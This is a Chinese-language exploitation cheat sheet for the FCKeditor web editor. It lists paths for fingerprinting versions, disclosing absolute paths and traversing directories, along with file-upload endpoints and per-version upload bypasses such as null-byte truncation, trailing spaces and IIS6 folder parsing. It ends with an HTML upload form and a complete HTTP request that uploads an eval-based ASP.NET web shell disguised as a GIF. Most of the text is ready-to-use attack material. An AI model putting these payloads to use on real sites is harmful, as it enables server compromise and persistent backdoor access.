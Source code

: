 # FCKeditor 编辑器漏洞利用

>n年前的总结，如果发现fckeditor这种老古董组件可以使用

## 0x01 查看编辑器版本
* `/fckeditor/editor/dialog/fck_about.html`
* `/ckeditor/CHANGES.html`


## 0x02 编辑器参数

- connecter参数是针对/FCKeditor/editor/filemanager/browser/default/connectors/目录下aspx、php、py...各环境脚本连接文件。(此目录下为关键文件)
- type参数上传类型file、image... 
- Command参数执行相应命令GetFoldersAndFiles...


## 0x03 默认上传文件保存路径

/UserFiles/File(Image...)
## 0x04 爆绝对路径漏洞

- `/FCKeditor/editor/dialog/fck_spellerpages/spellerpages/server-scripts/spellchecker.php`  (支持php的通杀)
- `/FCKeditor/editor/filemanager/browser/default/browser.html?type=Image&connector=connectors/aspx/connector.aspx`  (2.5可突破)
- `/FCKeditor/editor/filemanager/browser/default/connectors/aspx/connector.aspx?Command=GetFoldersAndFiles&Type=File&CurrentFolder=/shell.asp`


## 0x05遍历目录漏洞

- `/FCKeditor/editor/filemanager/browser/default/connectors/aspx/connector.aspx?Command=GetFoldersAndFiles&Type=Image&CurrentFolder=../../`
- Version 2.4.1 测试通过 修改CurrentFolder 参数使用 ../../来进入不同的目录：`/browser/default/connectors/aspx/connector.aspx？Command=CreateFolder&Type=Image&CurrentFolder=../../../&NewFolderName=shell.asp`

根据返回的XML 信息可以查看网站所有的目录，上传地址URL。

- `/FCKeditor/editor/filemanager/browser/default/connectors/aspx/connector.aspx?Command=GetFoldersAndFiles&Type=Image&CurrentFolder=/`

- `/FCKeditor/editor/filemanager/browser/default/connectors/jsp/connector?Command=GetFoldersAndFiles&Type=&CurrentFolder=/`


## 0x06 上传URI
### (1)test文件的上传地址 
- `FCKeditor/editor/filemanager/browser/default/connectors/test.html`
- `FCKeditor/editor/filemanager/upload/test.html`
- `FCKeditor/editor/filemanager/connectors/test.html`
- `FCKeditor/editor/filemanager/connectors/uploadtest.html`


### (2)brower文件上传地址

- `/FCKeditor/editor/filemanager/browser/default/browser.html?Type=File&Connector=../../connectors/asp/connector.asp`
- `/FCKeditor/editor/filemanager/browser/default/browser.html?Connector=connectors/asp/connector.asp`


## 0x07.突破方式+各版本漏洞
### (1)建立文件夹方法
     (a)利用IIS6.0解析漏洞建立*.asp文件夹，上传图片马或者上传畸形文件
     (b)fckeditor <= 2.6.4 For php 任意文件上传漏洞（iis判定路径有问题，返回500）
     `/fckeditor/editor/filemanager/browser/default/connectors/php/connector.php?Command=FileUpload&Type=File&CurrentFolder=%2Ftest.php%00.gif` 上传gif图片马即可
### (2)后台无验证
(a)fckeditor 2.x < =2.4.2 For php 在处理PHP 上传的地方并未对Media 类型进行上传文件类型的控制，可上传任意文件。

     将以下保存为html文件，修改action地址。
 ```
<form id="frmUpload" enctype="multipart/form-data"action="http://www.site.com/FCKeditor/editor/filemanager/upload/php/upload.php?Type=Media" method="post">
    Upload a new file:<br>
    <input type="file" name="NewFile"size="50"/><br>
    <input id="btnUpload" type="submit" value="Upload"/>
</form>
```
(b)fckeditor <= 2.2 允许上传asa、cer、php2、php4、inc、pwml、pht
### (3) 空格绕过

     fckeditor<=2.4.1 提交shell.aspx+空格 绕过 【Windows测试成功】(2.4.1 success)
### (4)二次上传
     fckeditor <= 2.6.8 for asp   运用%00截断，首先上传文件名为shell.asp%00txt，结果为shell.asp_txt，再次上传同名文件，结果为shell(1).asp，成功绕过。

### (5)截断上传
fckeditor <= 2.2.  文件名后截断  shell.asp%00.jpg 直接shell.asp上传成功     
HTTP Request Eg. 
```
POST /FCKeditor/editor/filemanager/upload/aspx/upload.aspx?Type=Image HTTP/1.1
Host: www.**.com
User-Agent: Mozilla/5.0 (Windows NT 6.1; rv:36.0) Gecko/20100101 Firefox/36.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Referer: http://**m/FCKeditor/editor/dialog/fck_image.html?ImageButton
Cookie: ASP.NET_SessionId=kh5lee5aubjpdnpezzhkf4tl; WebPlugValidateCode=7020
Connection: keep-alive
Content-Type: multipart/form-data; boundary=---------------------------61051038624293
Content-Length: 264

-----------------------------61051038624293
Content-Disposition: form-data; name="NewFile"; filename="a11.jpg"
Content-Type: image/jpeg

gif89a
<%@ Page Language="Jscript"%><%eval(Request.Item["str"],"unsafe");%>
-----------------------------61051038624293--
```

